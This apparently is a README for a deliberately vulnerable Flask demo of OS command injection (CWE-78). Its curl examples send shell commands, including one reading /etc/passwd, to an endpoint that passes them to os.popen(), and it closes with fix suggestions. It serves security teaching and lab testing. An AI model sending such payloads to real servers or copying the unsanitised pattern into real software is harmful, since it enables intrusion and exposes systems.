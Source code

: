 # CWE-78: OS Command Injection via POST Body

This snippet demonstrates a classic OS Command Injection vulnerability using `os.popen()` with unsanitized user input received from a POST request.

## 🛠 How to Use

Start the Flask application (via Docker or locally), then issue a POST request like below:

```bash
curl -X POST http://[Your Service Public IP Address]/run \
  -H "Content-Type: application/json" \
  -d '{"command": "whoami"}'
```

You should see output similar to:

```
<pre>root
</pre>
```

## 🔍 Example Payloads

```bash
# List files in /
curl -X POST http://[Your Service Public IP Address]/run -H "Content-Type: application/json" -d '{"command": "ls /"}'

# Read sensitive file
curl -X POST http://[Your Service Public IP Address]/run -H "Content-Type: application/json" -d '{"command": "cat /etc/passwd"}'
```

## 💣 What Makes It Vulnerable

- The input from `request.get_json()` is passed directly to `os.popen()` with no sanitization or validation.
- This allows an attacker to execute arbitrary commands on the server with the application's privilege.

## ✅ Fix Suggestion

- Avoid using `os.popen()` or other shell-execution methods with user input.
- Use parameterized APIs or validate/whitelist allowed commands.
